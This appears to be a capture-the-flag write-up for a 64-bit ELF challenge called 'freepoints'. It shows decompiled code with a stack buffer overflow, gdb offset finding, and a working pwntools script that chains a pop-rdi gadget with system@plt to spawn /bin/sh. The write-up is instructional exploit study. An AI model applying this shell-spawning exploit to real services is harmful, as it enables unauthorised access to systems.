 ## Binary : freepoints
## Level  : Easy
## Points : 50 pts

this challenge was an ELF 64-bit not stripped

Protections :
```
CANARY    	: disabled

FORTIFY  	: disabled

NX        	: ENABLED

PIE       	: disabled

RELRO     	: Partial
```

## Analysis 


```c
int checkdistro()
{
  return system("uname -s");
}

```


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [sp+0h] [bp-10h]@1

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("want some free points ? enter your nickname :");
  read(0, &nickname, 0x10uLL);
  puts("how many points you want? : ");
  read(0, &buf, 0x40uLL);
  return 0;
}
```


we have two main functions  checkdistro() which contain a system function checks our distro (normally the output is Linux) and we have no controll over the argument .

a main() which asks for 2 inputs from the user the first input get stored in a global var &nickname 

```c
gdb-peda$ p &nickname
$3 = (<data variable, no debug info> *) 0x601070 <nickname>
gdb-peda$ x/s 0x601070
0x601070 <nickname>:    "nicknamehere\n"
gdb-peda$ 
```

and last input get stored in &buf ont the stack  but the size is more than expected from buf so basically we have a buffer overflow


```c

gdb-peda$ x/xg $rsp
0x7fffffffdc78: 0x413b414144414128
gdb-peda$ pattern offset 0x413b414144414128
4700422384665051432 found at offset: 24
gdb-peda$ 
rip            0xa4242424242       0xa4242424242

```


## Exploit building :

to sum up we have PIE disabled so we don't have to be bothered by leaking and calculating , a system function and  golbal variable to store  what ever we need in it something like  system(&nickname);


```py
from pwn import *

#r = remote("198.211.116.222",9000)
r = process("./freepoints")

system = 0x400520  #system@plt address
poprdi = 0x400743  #pop rdi; ret
nickname = 0x601070 # nickname address


pld  = "A"*24
pld += p64(poprdi)
pld += p64(nickname)
pld += p64(system)

r.recvuntil(":")
r.sendline("/bin/sh\x00") #store /bin/sh into &nickname

r.recvuntil(":")
r.sendline(pld)

r.interactive()

```
